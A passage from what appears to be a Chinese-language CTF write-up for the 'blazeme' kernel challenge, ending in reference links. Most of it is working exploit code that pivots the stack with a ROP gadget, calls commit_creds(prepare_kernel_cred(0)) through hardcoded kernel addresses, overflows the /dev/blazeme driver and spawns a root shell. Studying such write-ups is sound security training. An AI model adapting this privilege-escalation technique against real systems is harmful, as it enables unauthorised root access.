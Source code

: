 ```
  printf("Spawning shell\n");
  system("/bin/sh");
  exit(0);
}

int main() {
  commit_creds = (void *)0xffffffff81063960ull;
  prepare_kernel_cred = (void *)0xffffffff81063b50ull;
  save_state();

  unsigned long *fake_stack = mmap((void *)0x1700000, 0x1000000, PROT_READ | PROT_WRITE | PROT_EXEC, 0x32 | MAP_POPULATE | MAP_FIXED | MAP_GROWSDOWN, -1, 0);   
  fake_stack[0x40000 / 8] = (unsigned long)kernel_payload;
  //mmap申请内存伪造stack在0x40000的位置放上kernel_payload

  unsigned long pivot[8];
  for (int i = 0; i < 8; ++i) {
    pivot[i] = 0xffffffff8109c604ull;  // mov esp, 0x1740000; ret;
  }
  

  char payload[64];
  strncpy(payload, "AA", 2);
  strncpy(&payload[2], (const char *)pivot, 62);

  int fd = open("/dev/blazeme", O_RDWR);
  for (;;) {
    write(fd, payload, 64);;
  }
  return 0;
}

```

### 参考链接
* [blazeme writeup](https://devcraft.io/2018/04/25/blazeme-blaze-ctf-2018.html)
* [内核环境配置](https://xz.aliyun.com/t/2024)
* [内核利用入门 anciety](https://www.anquanke.com/post/id/86490)
* [Linux Kernel Exploitation](https://github.com/ctf-wiki/ctf-wiki/blob/master/docs/pwn/linux/kernel/ref/13_lecture.pdf)  

* https://github.com/vnik5287/kernel_rop/blob/master/rop_exploit.c
* https://devcraft.io/2018/04/25/blazeme-blaze-ctf-2018.html

* [查看linux内核源码的网站](https://elixir.bootlin.com/linux/v4.4.72/source/include/linux/cred.h#L118)
